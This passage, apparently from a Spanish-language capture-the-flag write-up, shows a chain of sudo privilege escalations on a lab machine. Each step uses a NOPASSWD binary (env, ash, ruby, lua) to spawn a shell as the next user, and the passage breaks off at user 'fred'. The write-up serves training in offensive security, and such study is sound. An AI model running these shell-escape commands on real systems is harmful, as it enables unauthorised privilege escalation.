 **Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/env ]`
- Credenciales de usuario: `[ www-data ]:[  ]`

### Explotacion de Privilegios

###### Usuario `[ www-data ]`:

```bash
# Comando para escalar al usuario: ( daphne )
User www-data may run the following commands on be30e8fa0ab7:
    (daphne) NOPASSWD: /usr/bin/env
```

Ahora explotamos el binario:
```bash
sudo -u daphne /usr/bin/env /bin/bash
```

###### Usuario `[ daphne ]`:

```bash
# Comando para escalar al usuario: ( vilma )
User daphne may run the following commands on be30e8fa0ab7:
    (vilma) NOPASSWD: /usr/bin/ash
```

Ahora explotamos el binario:
```bash
sudo -u vilma /usr/bin/ash
```

###### Usuario `[ vulma ]`:

```bash
# Comando para escalar al usuario: ( shaggy )
User vilma may run the following commands on be30e8fa0ab7:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

Ahora explotamos el binario:
```bash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/bash"'
```

###### Usuario `[ shaggy ]`:

```bash
# Comando para escalar al usuario: ( fred )
User shaggy may run the following commands on be30e8fa0ab7:
    (fred) NOPASSWD: /usr/bin/lua
```

Ahora explotamos el binario:
```bash
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/bash")'
```

###### Usuario `[ fred ]`:
